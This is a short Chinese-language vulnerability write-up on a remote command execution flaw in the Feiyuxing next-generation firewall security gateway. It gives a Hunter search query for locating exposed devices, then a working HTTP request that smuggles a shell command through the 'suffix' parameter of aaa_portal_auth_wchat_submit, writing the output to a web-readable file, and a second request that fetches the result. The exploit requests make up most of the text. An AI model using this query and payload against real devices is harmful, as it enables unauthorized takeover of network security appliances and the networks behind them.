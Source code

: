 # 飞鱼星下一代防火墙安全网关aaa_portal_auth_wchat_submit存在远程命令执行漏洞

# 一、漏洞简介
飞鱼星下一代防火墙安全网关aaa_portal_auth_wchat_submit存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 飞鱼星下一代防火墙安全网关

# 三、资产测绘
+ hunter`web.title="下一代防火墙安全网关"&&web.body="./webui/js/jquerylib/"`
+ 特征

![1703406555367-82625773-f5ee-47db-a94e-a974cf2112bf.png](./img/3hKIFGXdPlbXJRDM/1703406555367-82625773-f5ee-47db-a94e-a974cf2112bf-028450.png)

# 四、漏洞复现
```plain
GET /webui/?g=aaa_portal_auth_wchat_submit&suffix=;echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/stc.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703406610179-b013056a-1211-4fb4-83ba-6718a16f1150.png](./img/3hKIFGXdPlbXJRDM/1703406610179-b013056a-1211-4fb4-83ba-6718a16f1150-394370.png)

获取命令执行结果

```plain
GET /sslvpn/stc.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703406632394-be847ae6-b195-4974-bd17-5b3ccbe76f2c.png](./img/3hKIFGXdPlbXJRDM/1703406632394-be847ae6-b195-4974-bd17-5b3ccbe76f2c-297158.png)



> 更新: 2024-09-03 14:56:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qc40w8qnkoefmbpx>